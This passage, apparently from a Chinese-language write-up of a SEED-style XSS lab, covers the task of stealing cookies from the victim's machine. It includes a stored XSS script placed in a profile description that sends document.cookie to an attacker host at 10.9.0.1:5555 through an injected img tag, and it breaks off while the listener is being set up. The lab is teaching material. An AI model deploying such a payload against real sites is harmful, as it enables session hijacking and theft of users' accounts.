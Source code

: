 保存好后就已经生效了：

![2-1](../image/2-1.png)

---

## Task 3: Stealing Cookies from the Victim’s Machine

在此任务中，攻击者希望 JavaScript 代码将 cookie 发送给他/她自己。

为了实现这一点，恶意 JavaScript 代码需要向攻击者发送 HTTP 请求，并将 cookie 附加到请求中。

我们可以通过让恶意 JavaScript 插入一个 <img> 标签来做到这一点，并将其 src 属性设置为攻击者的机器。

当 JavaScript 插入 img 标签时，浏览器会尝试从 src 字段中的 URL 加载图像；这会导致 HTTP GET 请求发送到攻击者的计算机。

我们修改 Samy 的 Brief description 为：

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c='+encodeURIComponent(document.cookie)+'>');
</script>
```

（注：`encodeURIComponent`函数对cookie字符串进行编码，使其可以安全地包含在URL中，防止特殊字符引起的语法错误。）

这段 JavaScript代码会将 cookie 发送到攻击者机器的端口 5555（IP 地址为 10.9.0.1），其中攻击者有一个 TCP 服务器侦听同一端口。

我们在在 5555 端口上开启监听：
